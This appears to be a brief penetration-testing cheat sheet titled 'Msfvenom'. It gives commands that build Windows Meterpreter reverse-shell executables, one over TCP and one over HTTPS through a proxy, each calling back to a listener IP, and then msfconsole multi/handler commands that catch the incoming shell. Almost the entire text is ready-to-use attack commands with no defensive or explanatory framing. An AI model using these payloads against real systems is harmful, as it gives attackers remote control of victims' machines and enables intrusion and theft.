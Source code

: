 # Msfvenom
Create with:

msfvenom --platform Windows -p windows/meterpreter/reverse_tcp LHOST=172.16.14.112 LPORT=443 -b "\x00" -f exe -o shell.exe
msfvenom --platform Windows -p windows/meterpreter/reverse_https HttpProxyUser=* HttpProxyPass=* LHOST=77.99.55.98 LPORT=444 -b "\x00" -f exe -o shell.exe

msfconsole -q
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
windows/meterpreter/reverse_tcp
set lhost 192.168.1.123
set lport 4444
exploit -j
